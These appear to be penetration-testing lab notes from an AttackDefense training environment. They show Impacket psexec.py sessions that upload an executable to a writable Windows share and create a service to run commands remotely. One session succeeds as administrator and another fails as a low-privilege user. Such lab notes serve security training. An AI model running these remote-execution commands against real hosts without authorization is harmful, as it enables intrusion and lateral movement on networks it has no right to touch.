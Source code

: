 ```bash
================================================================================================================================

root@attackdefense:~# psexec.py administrator@10.4.19.178 ipconfig
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.4.19.178.....
[*] Found writable share admin
[*] Uploading file htKsTxhZ.exe
[*] Opening SVCManager on 10.4.19.178.....
[*] Creating service WeAE on 10.4.19.178.....
[*] Starting service WeAE.....
[!] Press help for extra shell commands

Windows IP Configuration


Ethernet adapter Ethernet 3:

   Connection-specific DNS Suffix  . : ec2.internal
   Link-local IPv6 Address . . . . . : fe80::55c2:45f5:a88b:6213%8
   IPv4 Address. . . . . . . . . . . : 10.4.19.178
   Subnet Mask . . . . . . . . . . . : 255.255.240.0
   Default Gateway . . . . . . . . . : 10.4.16.1

Tunnel adapter isatap.ec2.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : ec2.internal

Tunnel adapter Local Area Connection* 3:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : 2001:0:34f1:8072:2467:b54:f5fb:ec4d
   Link-local IPv6 Address . . . . . : fe80::2467:b54:f5fb:ec4d%7
   Default Gateway . . . . . . . . . : ::
[*] Process ipconfig finished with ErrorCode: 0, ReturnCode: 0
[*] Opening SVCManager on 10.4.19.178.....
[*] Stopping service WeAE.....
[*] Removing service WeAE.....
[*] Removing file htKsTxhZ.exe.....

================================================================================================================================
if the user does not have wriable share

root@attackdefense:~# psexec.py demo@10.4.19.178 cmd.exe
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.4.19.178.....
[-] share 'admin' is not writable.
[-] share 'ADMIN$' is not writable.
[-] share 'C' is not writable.
[-] share 'C$' is not writable.
[*] Found writable share public
[*] Uploading file RxmlsLpn.exe
[*] Opening SVCManager on 10.4.19.178.....
[-] Error opening SVCManager on 10.4.19.178.....
[-] Error performing the installation, cleaning up: Unable to open SVCManager

```